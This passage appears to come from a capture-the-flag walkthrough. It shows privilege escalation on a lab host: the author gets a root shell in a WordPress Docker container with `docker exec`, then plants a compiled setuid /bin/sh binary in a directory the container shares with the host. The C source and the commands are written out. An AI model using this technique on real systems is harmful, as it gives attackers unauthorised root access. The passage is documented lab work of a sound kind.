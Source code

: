 and we can see a file named `list` which contains information about the dockers.

![](images/fugit2/list.png)

Currently we have access to `/root` but we cannot run `proof.sh` but the interesting part is that in `/root` there is another directory named `wp` and there is another directory named `wp-content`. In the list we have a container with ID `1786dd63dedb` that is having wordpress.

Run `sudo docker exec -it 1786dd63dedb bash` to get shell on that container as root.

![](images/fugit2/exec-bash.png)

The good thing is there is also `wp-content/TFDocument` folder. So I made a suid by compiling the following code

```c
int main(void) {
       setgid(0); setuid(0);
       execl("/bin/sh","sh",0);
}
```

And then tranferedthis binary to the container and did `chmod 4755 suid`

![](images/fugit2/make-suid.png)

Now exit the container and go to `/root/wp-content/TFDocuments` and you'll see that suid. This means that docker is sharing a directory with the main system and that is the reason we'll be able to escalate our privileges.

![](images/fugit2/shared.png)
